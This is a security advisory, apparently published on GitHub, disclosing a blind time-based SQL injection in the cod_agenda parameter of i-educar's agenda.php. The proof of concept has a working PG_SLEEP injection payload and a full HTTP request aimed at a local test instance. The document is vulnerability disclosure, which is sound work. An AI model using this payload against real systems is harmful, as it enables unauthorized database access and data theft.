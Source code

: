 # SQL Injection (Blind Time-Based) Vulnerability in `cod_agenda` Parameter on `agenda.php` Endpoint

### Summary

<p align="justify">A SQL Injection vulnerability was identified in the <code>/intranet/agenda.php</code> endpoint of the i-educar application, specifically in the <code>cod_agenda</code> parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.</p>

---

### Details

Vulnerable Endpoint: `/intranet/agenda.php`

Parameter: `cod_agenda`

<p align="justify">The application fails to properly validate and sanitize user input in the <code>cod_agenda</code> parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.</p>

---

### PoC

#### Step by Step:

<p align="justify">Access vulnerable endpoint and click on <code>"Novo Compromisso"</code> button to setup a new entry. Type required values in the fields and click on <code>"Salvar"</code>. The page will automatically redirect to another Endpoint like: <code>http://localhost:8086/intranet/agenda.php?cod_agenda=2&time=1755283</code>.</p>

![](/CVEs/images/SQLi1.png)

![](/CVEs/images/SQLi2.png)

![](/CVEs/images/SQLi3.png)

##

#### Payload:

````html
%27%20AND%204698=(SELECT%204698%20FROM%20PG_SLEEP(5))%20AND%20%27xiCO%27=%27xiCO
````

#### Decoded Payload:

````html
' AND 4698=(SELECT 4698 FROM PG_SLEEP(5)) AND 'xiCO'='xiCO
````

<p align="justify"> This payload triggers a 5-second delay in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.</p>

##

#### Example Request:

````html
GET /intranet/agenda.php?cod_agenda=2%27%20AND%204698=(SELECT%204698%20FROM%20PG_SLEEP(5))%20AND%20%27xiCO%27=%27xiCO  HTTP/1.1
Host: localhost:8086
sec-ch-ua: "Not)A;Brand";v="8", "Chromium";v="138"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: i_educar_session=5AfYtvGRiuEgLBVbvksmwiNSnG75l4waXNMo1PEV
Connection: keep-alive
````
##

#### Normal Request:

![](/CVEs/images/SQLi4.png)

#### SQLi Request:

![](/CVEs/images/SQLi5.png)

<p align="justify">Observe the increased server response time, confirming that the injected SQL command was executed.</p>

---

### Impact

<p align="justify">
<ul>
  <li>Unauthorized data access: Reading sensitive information such as credentials, personal data, or configuration details</li>
  <li>Database enumeration: Extracting database schema, tables, and column details</li>
  <li>Data manipulation: Adding, modifying, or deleting database records.</li>
  <li>Denial of Service (DoS): Using time-based queries to impact system availability.</li>
  <li>Potential escalation to RCE: If combined with other vulnerabilities and specific database features.</li>
</ul>
</p>

---

### Finder

*Discovered with💜 by [Karina Gante](https://karinagante.github.io/).* 

[![LinkedIn](https://skillicons.dev/icons?i=linkedin&theme=dark)](https://www.linkedin.com/in/karina-gante/)
[![GitHub](https://skillicons.dev/icons?i=github&theme=dark)](https://www.github.com/KarinaGante/)
[![gmail](https://skillicons.dev/icons?i=gmail&theme=dark)](mailto:karina.gante1@gmail.com)
[![Instagram](https://skillicons.dev/icons?i=instagram&theme=dark)](https://www.instagram.com/karinovisk02/)

##

*Official Member of [CVE-Hunters](https://www.cvehunters.com/)🏹*